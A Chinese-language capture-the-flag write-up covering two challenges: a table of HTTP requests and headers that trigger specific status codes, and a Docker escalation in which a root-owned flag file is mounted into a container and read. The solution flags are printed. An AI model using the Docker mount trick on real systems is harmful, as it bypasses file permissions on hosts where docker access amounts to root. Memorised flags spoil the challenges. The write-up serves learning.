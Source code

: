 ## HTTP 集邮册

1. 一次手滑多删除了一个空格后出现了有关于 HTTP 0.9 的无状态码报文：

   ```
   GET /HTTP/1.1\r\n
   \r\n
   ```

2. 状态码构造一览表：

   | 状态码 | 请求                | 特殊 Header                 |
   | :----: | :------------------ | :-------------------------- |
   |  100   | `GET / HTTP/1.1`    | `Expect: 100-continue`      |
   |  200   | `GET / HTTP/1.1`    | &nbsp;                      |
   |  206   | `GET / HTTP/1.1`    | `Range: bytes=0-1`          |
   |  304   | `GET / HTTP/1.1`    | `If-Modified-Since: ...`    |
   |  400   | `GET / HTTP/1.1`    | `Content-Length: -1010101`  |
   |  404   | `GET /404 HTTP/1.1` | &nbsp;                      |
   |  405   | `POST / HTTP/1.1`   | &nbsp;                      |
   |  412   | `GET / HTTP/1.1`    | `If-Match: "*"`             |
   |  413   | `GET / HTTP/1.1`    | `Content-Length: 104000000` |
   |  416   | `GET / HTTP/1.1`    | `Range: bytes=100000000-`   |
   |  501   | `GET / HTTP/1.1`    | `Transfer-Encoding: gzip`   |
   |  505   | `GET / HTTP/2`      | &nbsp;                      |

**`flag{stacking_up_http_status_codes_is_fun_7ef5b51ff4}`**
**`flag{congratu1ations you discovered someth1ng before http1.0}`**
**`flag{I think that when many such status codes are accumulated eeb164fb06 it becomes a lifetime}`**

## Docker for Everyone

Docker 是区分前后端的进程，使用 `docker` 命令是向 `socket` 发送请求，实际的执行和文件访问权限为 daemon 的所有者，本道题中也就是 root，因此可以通过挂载的方式读取 flag。

```sh
alpine:~$ docker run -it --rm -v /dev/shm/flag:/flag alpine sh
/ # ls
bin    etc    home   media  opt    root   sbin   sys    usr
dev    flag   lib    mnt    proc   run    srv    tmp    var
/ # cat flag
flag{u5e_r00t1ess_conta1ner_98d15a166b_plz!}
```
